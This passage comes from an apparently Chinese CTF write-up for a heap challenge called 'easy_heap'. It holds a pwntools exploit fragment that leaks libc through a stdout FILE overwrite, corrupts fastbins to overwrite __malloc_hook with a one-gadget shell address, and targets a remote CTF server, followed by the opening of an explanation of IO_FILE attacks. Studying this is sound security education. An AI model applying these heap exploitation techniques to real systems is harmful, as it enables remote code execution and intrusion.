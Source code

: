 ```py
    Alloc(p,0x60)#4 stdout
    Fill(p,4,'\x00'*51+p64(0xfbad1800)+p64(0)*3+'\x00'+'\n')
    p.recvn(0x40)
    libc_bse = u64(p.recv(8)) - 3954176
    log.success('lib base => ' + hex(libc_bse))
    malloc_hook = libc_bse + libc.symbols['__malloc_hook']
    fake_chunk = malloc_hook - 35
    shell_addr = libc_bse+gadgets[2]
    #get shell

    Delete(p,2)#into 0x70 fast bins
    Delete(p,1)
    Alloc(p,0x70)#1


    Fill(p,1,'a'*0x20+p64(0x90)+p64(0x71)+p64(fake_chunk)*2+'\n')
    Alloc(p,0x60)#2
    Alloc(p,0x60)#5
    Fill(p,5,'a'*0x13+p64(shell_addr)+'\n')

    #trigger
    #Delete(p,0)
    gdb.attach(p)
    Delete(p,2)
    Delete(p,5)

    p.interactive()

if debug:
    p = process('./easy_heap')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
    p = remote('47.104.89.129',10004)
    libc = ELF('./libc.so.6')

exp(p)



```

## 解法3(官方+x3h1n)

这个解法感觉是一个很好玩的套路，今天查了一天资料总算了解差不多了。emm但是感觉要写的东西太多，还是直接copy师姐的exp和分析(懒)

这个解法利用的IO_FILE攻击，之前我也做过一道题，写了点东西，但是那个只是写了利用的payload，对于具体利用的方式不甚了解，这里会详细一点。

### 关于各种结构体及名词

_IO_FILE_plus是最全面的一个结构体，它包括一个_IO_FILE结构体和一个IO_jump_t指针，同时，我们一会要用的_IO_list_all是它的结构体指针。尤其要注意的是，_IO_list_all 并不是一个描述文件的结构，而是它指向了一个可以描述文件的结构体头部，通常它指向 IO_2_1_stderr 。
